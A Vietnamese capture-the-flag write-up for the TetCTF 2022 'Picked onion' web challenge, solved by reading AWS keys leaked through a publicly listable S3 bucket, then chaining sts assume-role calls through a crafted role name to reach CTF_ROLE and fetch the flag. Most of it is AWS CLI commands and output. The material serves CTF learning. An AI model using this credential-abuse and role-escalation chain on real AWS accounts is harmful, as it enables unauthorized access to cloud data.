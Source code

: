 ```yaml
---
title: TetCTF 2022 | Web Exploitation | Picked onion
date: 2022-01-03-15:17:00 +0700
---
```


# Picked onion

![chall](https://user-images.githubusercontent.com/82533607/147910715-ae6e2f99-a294-4397-88bb-878d50561751.png)

## Reconaisance

Truy cập vào URL, ta thấy có một mục có tên là `Secret`, thử truy cập và thấy một bức ảnh. Ctrl U (view-source) thì thấy bức ảnh `href` là một `s3 bucket` có tên là `secret-tetctf`:


![secret_img](https://user-images.githubusercontent.com/82533607/147911410-fa0489b2-e116-4a55-8f8c-3ebfe9588b4f.png)

Điều đáng chú ý ở đây, là khi sửa URL thành `https://secret-tetctf.s3.amazonaws.com/` thì ta thấy:


![first_leak](https://user-images.githubusercontent.com/82533607/147911956-a3d47c09-f901-4263-8f59-76a4fab0140e.png)

Có thể chia làm 3 đoạn như sau:

```
secret-tetctf1000false
I've_Got_a_Secret.jpg2021-12-31T07:12:14.000Z"8176cb55798ee6c7df58496312ca82d8"12949STANDARD
secret2021-12-31T07:15:50.000Z"1ace2f1a8925799880ad32ef47b3e9d9"1239STANDARD
```

Đây là một lỗi Access Control của S3 Bucket, tại đây, ta có thể thấy còn một file `secret` nữa, mình sẽ tải nó về bằng URL: `https://secret-tetctf.s3.amazonaws.com/secret` và đọc nó:


![secret_file](https://user-images.githubusercontent.com/82533607/147912573-6842e886-3c0d-4e54-a0bf-2e909c343f7e.png)

Ta thu được `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` và `REGION_NAME` của IAM User được sử dụng cho `dynamodb`.

## Exploit

Ban đầu khi đọc qua source code thì mình thấy nó giống hoàn toàn với [bài viết này](https://ctrsec.io/index.php/2021/12/19/python-deserialization-on-integrated-aws-ddb-flask-app/) của anh Chi Tran, nhưng tất nhiên, nếu vậy thì đơn giản quá:

![fail_1](https://user-images.githubusercontent.com/82533607/147912969-f153ba6d-61a9-491f-8b65-1ee78a979c63.png)

Có thể thấy, vấn đề ở đây là IAM User ddb_user mà ta đang sử dụng không có quyền hạn gì mấy để thực hiện exploit như bài viết ở trên.

Sau một hồi lục lọi trên doc của AWS thì mình thấy điều này:

```console
$ aws iam list-roles
{
    "Roles": [
        ...
        {
            "Path": "/",
            "RoleName": "CTF_ROLE",
            "RoleId": "AROAXNIS54O****************",
            "Arn": "arn:aws:iam::************:role/CTF_ROLE",
            "CreateDate": "2021-12-29T15:30:56Z",
            "AssumeRolePolicyDocument": {
                "Version": "2008-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "*"
                        },
                        "Action": "sts:AssumeRole",
                        "Condition": {
                            "StringLike": {
                                "aws:PrincipalArn": "arn:aws:iam::*:role/*-Accessing_Tet_CTF_Flag*"
                            }
                        }
                    }
                ]
            },
            "Description": "CTF_ROLE",
            "MaxSessionDuration": 3600
        }
    ]
}

```

Cùng hiểu một chút về đoạn JSON ở trên nhé?

Đây là một policy cho việc AssumeRole, ta thu được khá nhiều thông tin, đặc biệt nhất là Condittion cho việc AssumeRole, đó là chuỗi PrincipalArn trong request phải chứa một chuỗi `<anything>-Accessing_Tet_CTF_Flag<anything>`, cụ thể hơn thì chính xác cái user gửi request AssumeRole phải mang một IAM Role có tên với định dạng kể trên, như vậy, để thực hiện exploit, ta cần:

- Tạo một IAM User.

- Tạo một IAM Role có tên dưới dạng `<anything>-Accessing_Tet_CTF_Flag<anything>` mà IAM User vừa tạo có thể AssumeRole được.

- AssumeRole `<anything>-Accessing_Tet_CTF_Flag<anything>` vào IAM User đã tạo và lưu các creditials được trả về.

- AssumeRole `CTF_ROLE` ở trên và IAM User đã tạo, lưu lại creditials được trả về.

Giải thích lại một chút về ARN trong AWS, ARN là một chuỗi có dạng: `arn:partition:service:region:account:resource`, khi IAM User gửi bất kì request nào có yêu cầu credential, các chuỗi ARN sẽ được gửi đi, và chúng ta có thể sử dụng các chuỗi ARN này để viết policy phân quyền theo IAM Role cho các IAM User với điều kiện cụ thể.

Quay lại với vấn đề chính, vì không có AWS account để tạo IAM User nên mình đã inbox mượn anh Chi Tran một IAM User.

Sử dụng `aws configure` và điền các thông tin vào:

```console
$ aws configure
AWS Access Key ID [********************]: AKIAXNIS************
AWS Secret Access Key [********************]: VmK2ZWUVZ************************
Default region name [us-east-1]: 
Default output format [json]: 
```

Sau đó, tạo một file `Trust-policy.json`, sử dụng làm Policy cho Role mới (đừng làm theo ở thực tế, vì lý do bảo mật):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*" // allow all, no condittion
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```

Và sử dụng `aws iam create-role --role-name <anything>-Accessing_Tet_CTF_Flag<anything> --assume-role-policy-document file://Trust-policy.json` để tạo Role, nhớ note lại ARN ở output

AssumeRole:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/<anything>-Accessing_Tet_CTF_Flag<anything>" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/<anything>-Accessing_Tet_CTF_Flag<anything>/<anyname>"
    }
}
```

Lưu credential vào Env:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Tiến hành AssumeRole `CTF_ROLE`:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/CTF_ROLE" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/CTF_ROLE/<anyname>"
    }
}
```

Và lại lưu credentials:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Lúc này, ta đã có Role CTF_ROLE, nếu chưa chắc chắn, có thể kiểm tra bằng `aws sts get-caller-identity`, nếu thấy CTF_ROLE thì đã thành công.

Tiến hành list các bucket:

```console
$ aws s3api list-buckets --query "Buckets[].Name"
[
    "secret-tetctf",
    "tet-ctf-secret"
]
```

Vậy là ta thấy thêm một bucket nữa tên là `tet-ctf-secret`, kiểm tra xem trên đó có gì:

```console
$ aws s3 ls s3://tet-ctf-secret
2021-12-29 22:18:42         29 flag
```

Có file flag, thử lấy nó về và đọc:

```console
$ aws s3 cp s3://tet-ctf-secret/flag flag
download: s3://tet-ctf-secret/flag to ./flag 

$ cat flag
TetCTF{AssumE_R0le-iS-A-MuSt}
```

Done, flag: `TetCTF{AssumE_R0le-iS-A-MuSt}`

> Cảm ơn anh Chi Tran, đồng thời là người ra đề của chall này, đã cho em mượn IAM User và chỉ dẫn em trong quá trình giải, cũng như là học thêm kiến thức mới!
